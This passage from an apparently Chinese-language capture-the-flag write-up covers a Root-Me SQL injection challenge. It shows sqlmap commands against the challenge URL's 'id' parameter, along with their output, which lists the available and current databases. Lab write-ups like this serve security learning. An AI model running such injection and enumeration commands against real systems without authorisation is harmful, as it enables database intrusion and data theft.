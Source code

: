 ```shell
---
[21:56:47] [INFO] the back-end DBMS is MySQL
web application technology: Nginx
back-end DBMS: MySQL >= 5.0
[21:56:47] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'

[*] ending @ 21:56:47 /2019-03-17/
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/02.png)

------------

## 拖库

这里暂且先不用人工方式构造 payload ，先直接用 sqlmap 解题。


### 获取数据库

先获取所有数据库的库名：

```shell
sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1" --dbs

---
[22:02:30] [INFO] the back-end DBMS is MySQL
web application technology: Nginx
back-end DBMS: MySQL >= 5.0
[22:02:30] [INFO] fetching database names
[22:02:30] [INFO] used SQL query returns 2 entries
[22:02:30] [INFO] resumed: 'information_schema'
[22:02:30] [INFO] resumed: 'c_webserveur_31'
available databases [2]:
[*] c_webserveur_31
[*] information_schema
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/03.png)

再查到当前数据库是 `c_webserveur_31` ：

```shell
sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1" --current-db

---
[22:18:40] [INFO] the back-end DBMS is MySQL
web application technology: Nginx
back-end DBMS: MySQL >= 5.0
[22:18:40] [INFO] fetching current database
current database: 'c_webserveur_31'
```
